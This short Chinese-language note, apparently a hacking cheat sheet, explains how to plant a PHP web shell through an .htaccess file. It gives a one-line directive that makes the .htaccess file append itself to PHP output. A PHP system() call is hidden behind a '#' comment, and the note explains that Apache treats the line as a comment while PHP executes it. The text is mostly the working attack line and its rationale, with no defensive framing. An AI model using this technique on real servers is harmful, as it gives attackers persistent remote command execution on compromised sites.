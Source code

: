 # 通过.htaccess文件写入shell

## 1、语法

```
php_value auto_append_file .htaccess #<? php system('ls');?>\
```

## 2、原理

* \#在htaccess中是注释符的作用，但是在php执行的时候，一句话木马就会被执行